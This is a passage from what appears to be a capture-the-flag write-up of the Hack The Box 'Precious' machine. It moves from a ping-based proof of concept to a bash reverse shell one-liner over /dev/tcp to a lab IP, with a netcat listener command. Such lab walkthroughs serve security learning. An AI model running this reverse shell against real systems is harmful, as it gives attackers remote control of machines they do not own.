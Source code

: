 ![](/images/HTB/Precious/ruby_poc.png)

We get a whole bunch of errors from Precious, but if we scroll up we do see the output of the ping command, and we also see that the ping was received on our host machine. Once again our proof of concept is working so all that is left is to modify it to get a reverse shell.

Since this article already had a reverse shell payload we can copy that; `"bash -c 'bash -i >& /dev/tcp/10.10.14.22/6868 0>&1'"`  while changing the IP and port as necessary. Be sure to start a netcat listener on the specified port (`nc -lvnp 6868`), then run the command.
